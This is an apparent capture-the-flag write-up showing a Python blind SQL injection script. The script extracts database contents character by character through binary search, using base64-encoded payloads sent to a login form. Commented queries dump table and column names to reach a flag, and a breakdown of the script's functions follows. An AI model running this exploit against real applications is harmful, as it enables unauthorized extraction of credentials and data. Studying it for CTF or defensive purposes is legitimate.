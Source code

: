 ```python
   passwd = ""
   idx = 1

   while (True):
       lo = 1
       hi = 255
       temp = -1
       while(lo <= hi):
           mid = (lo + hi) // 2
           payload["username"] = base64.b64encode("' OR ((SELECT ASCII(SUBSTR({},{},1)) {}) <= {})-- -".format(str(kolom),str(idx),str(table),str(mid)).encode('utf-8')).decode('utf-8')
           
           payload["password"] = base64.b64encode("test".encode('utf-8')).decode('utf-8')
           payload["token"] = get_token()
           print (payload)
           res = requests.post(login,data=payload, cookies=cookie)
           if check2(res):
               hi = mid-1
               temp = mid
           else:
               lo = mid+1
       if (hi == 0): break
       print(temp)
       passwd += chr(temp)
       res = ""
       print("Result [{}]: {}".format(table,passwd))
       idx += 1
  
   return passwd

# blind("user()","")
# root@172.21.0.2
# blind("group_concat(table_name)", "FROM infoRmation_schema.tables where table_schema!=0x696e666f726d6174696f6e5f736368656d61")
# Result: flag,login,...
# blind("group_concat(column_name)", "FROM infoRmation_schema.columns where table_name='flag'")
# Result: fl4g_c0lumN5,id
```

1. **Setup:**
    - The script uses the **`requests`**, **`re`**, and **`base64`** libraries in Python.
    - The target URL is set to "[tokyo.ctf.protergo.party:10002/](tokyo.ctf.protergo.party:10002/)".
    - A cookie is specified as **`{"laravel_session": "w8DdHi4IgwEMV5lWoKnppOOxWgH5nGBXVYGZDddb;"}`**.
2. **Functions:**
    - **get_token():**
        - Sends a GET request to "api/token" to retrieve a token from the server.
        - Extracts the token from the JSON response and returns it.
    - **check2(data):**
        - Prints the response text.
        - Searches for the string "true" in the response text.
        - Returns **`True`** if "true" is found; otherwise, returns **`None`**.
    - **blind(kolom, table):**
        - Conducts a blind SQL injection to extract information from the database.
        - Uses a binary search to find the ASCII values of characters in a specified column and table.
        - Modifies the **`payload["username"]`** with a base64-encoded SQL injection payload.
        - The payload attempts to extract information character by character from the specified column and table.
        - Uses the **`get_token()`** function to retrieve a token for each request.
        - Prints the payload and response for debugging purposes.
        - Extracts ASCII values character by character and builds a password.
        - Prints the result for each character and continues until the entire password is extracted.
        - Returns the extracted password.
